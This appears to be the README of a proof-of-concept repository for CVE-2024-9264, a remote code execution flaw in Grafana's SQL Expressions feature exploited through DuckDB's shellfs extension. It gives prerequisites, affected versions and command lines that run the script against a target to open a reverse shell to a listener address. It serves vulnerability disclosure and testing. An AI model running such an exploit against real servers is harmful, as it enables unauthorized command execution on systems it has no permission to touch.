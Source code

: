 # CVE-2024-9264-RCE-Exploit in Grafana via SQL Expressions

## Description
Proof Of Concept for Remote Code Execution in Grafana (CVE-2024-9264)

This repository contains a Python script that exploits a Remote Code Execution (RCE) vulnerability in Grafana's SQL Expressions feature. 
By leveraging insufficient input sanitization, this exploit allows an attacker to execute arbitrary shell commands on the server.
This is made possible through the shellfs community extension, which can be installed and loaded by an attacker to facilitate command execution.

## Prerequisites
- authenticated Grafana user with `Viewer` permissions or higher
- DuckDB binary must be installed and accessible through Grafana's PATH

## Impacted version
Grafana >= v11.0.0 (all v11.x.y are impacted)

## Usage
```
python3 Graphana_RCE.py [--url <target>] [--username <username>] [--password <password>] [--reverse-ip <IP>] [--reverse-port <PORT>]
```

## Example
```
python Graphana_RCE.py --url http://127.0.0.1:3000 --username eviluser --password eviluser --reverse-ip 10.10.1.41 --reverse-port 9001
```

## Disclaimer

This script is intended for educational purposes and for use in controlled environments where you have permission to test the security of the system. Misuse of this tool could lead to legal consequences.

